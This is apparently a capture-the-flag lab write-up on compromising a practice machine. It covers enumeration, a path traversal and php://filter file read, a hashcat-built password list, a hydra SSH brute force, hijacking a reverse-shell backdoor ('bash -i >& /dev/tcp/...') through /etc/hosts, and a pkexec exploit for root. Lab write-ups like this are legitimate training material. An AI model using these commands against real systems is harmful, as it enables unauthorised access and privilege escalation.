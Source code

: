 
## *Enumeration*
>	- Doing basic nmap on the machine to view the open ports, their services and the vulnerabilities.![](nmap-out.png)
>	- Searching for hidden files using `gobuster`.![](gobuster-out.png)
>	- Nothing useful found, viewing the website and searching manually.
>	- The parameter `?page=home.html` seems interesting, attempting to access `/etc/passwd` using curl with this parameter `?page=../../../../../../../../../etc/passwd`.
>	- Nothing is returned.
>	- Trying the `php://filter/` wrapper.![](curl-out.png)
>	- Trying to view the `.bash_history` for the red and blue users.![](red-blue-history.png)
>	- From the description of the room, Red uses a template for passwords, hence the `base64.rule` file.
>	- As the `passlist.txt` file gets removed at the end, try to view the `.reminder` file.![](reminder-file.png)
## *Gaining Access*
>	- Now recreating the process to create a password list using `hashcat`.![](hashcat-out.png)
>	- Now using the generated passwords list to brute force the SSH login using `hydra -l blue -P passlist.txt 10.10.122.203 ssh`.![](hydra-out.png)
>	- Accessing the machine using ssh.![](gained-access.png)
## *Enumeration v2*
>	- First flag can be found.![](flag-1.png)
>	- The implemented security controls keeps terminating the ssh connection, so have to rerun the `hydra` command to get the new password.
>	- After accessing the machine again, the next step is to privilege escalate.
>	- Transferring `LinEnum.sh` to the target using a simple `http` python server.![](transfer.png)
>	- No access to bash, from one of the messages sent on the machine, hinted to using `pspy`.
>	- Transferring `pspy`.![](transfer-pspy.png)
>	- Changing the permissions and running the file.![](pspy-out.png)
>	- The `bash -c nohup bash -i >& /dev/tcp/redrules.thm/9001 0>&1 &` seems like a backdoor for privileged users, but the `redrules.thm` indicates an entry in the `/etc/hosts` file.
>	- Checking the `/etc/hosts` file.![](hosts-file.png)
## *Privilege Escalation*
>	 - Appending our own machine to the hosts file. ![](new-hosts.png)
>	- Using the backdoor to gain access.![](red-access.png)
>	- The second flag can be found.![](flag-2.png)
## *Enumeration v3*
>	- Checking the home directory shows a `.git` directory.![](git-dir.png)
>	- A quick google search on `pkexec` shows that it can be used to run programs as other users or root user if the username isn't provided.![](pkexec.png)
>	- Another search for a CVE that exploits `pkexec`.![](pkexec-cve.png)
## *Privilege Escalation v2*
>	- Downloading the `.py` file and hosting it with python.
>	- Downloading the file and running it on the target machine.![](root-access.png)
>	- Final flag can be found.![](flag-3.png)